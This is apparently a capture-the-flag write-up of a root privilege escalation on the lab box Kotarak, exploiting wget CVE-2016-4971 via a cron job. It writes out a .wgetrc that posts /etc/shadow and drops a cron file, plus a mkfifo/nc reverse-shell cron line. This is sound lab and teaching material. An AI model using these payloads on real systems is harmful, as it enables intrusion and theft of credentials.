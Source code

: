 # 25 - PrivEsc 2



# /root
```
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ ls -l /root/
total 8
-rw------- 1 atanas root 333 Jul 20  2017 app.log
-rw------- 1 atanas root  66 Aug 29  2017 flag.txt
```
# flag.txt
```bash
atanas@kotarak-dmz:/root$ cat flag.txt 
Getting closer! But what you are looking for can't be found here.
```

# app.log
```
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ cat /root/app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```


# Container 10.0.3.133
![](vx_images/5901517504618.png)



# Authbind is installed

![](vx_images/4757873180738.png)
Authbind allows unprivileged users to open ports that require superuser privileges. Ports 0 - 1023 are normally privileged and reserved for programs that are run as the root user.
We can open port 80 to check if wget is making requests to the box


# Checking if archive.tar.gz is still requested.
```bash
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ authbind  python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.3.133 - - [01/Jun/2021 08:48:01] code 404, message File not found
10.0.3.133 - - [01/Jun/2021 08:48:01] "GET /archive.tar.gz HTTP/1.1" 404 -
```

We know from app.log that client is wget, let's check if there is any vulnerability with this wget version


# Searchsploit

![](vx_images/2500210027229.png)

# [Exploit](https://www.exploit-db.com/exploits/40064)
```
=============================================
- Release date: 06.07.2016
- Discovered by: Dawid Golunski
- Severity: High
- CVE-2016-4971
=============================================


I. VULNERABILITY
-------------------------

GNU Wget < 1.18       Arbitrary File Upload / Potential Remote Code Execution
```

This exploit requires 3 programs running simultaneously. It is achievable with tmux

Run tmux with the following environment variables

```
$ rows=xx colums=yy TERM=zz tmux
```
we can find these values simply by typing 

```
$ stty -a
$ echo $TERM
```

otherwise tmux won't run properly

# create .wgetrc and open the ftp server
```
attackers-server# mkdir /tmp/ftptest
attackers-server# cd /tmp/ftptest

attackers-server# cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

attackers-server# sudo pip install pyftpdlib # it's already installed on the box, besides htb boxes aren't allowed to go to the internet
attackers-server# authbind python -m pyftpdlib -p21 -w
```

![](vx_images/5427164674381.png)

# PoC [wget-exploit.py](https://www.exploit-db.com/exploits/40064)

We want a reverse shell of course, so let's make some changes.
```
ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.3.1 9001 >/tmp/f \n"
```

After opening the nc listener on port 9001 we should be good to run the exploit now.
```bash
atanas@kotarak-dmz:/tmp/ftptest$ authbind  python wget-exploit.py
```
![](vx_images/553475878931.png)

On the top, there is the verbose output of wget-exploit.py and on the bottom we got root connected to us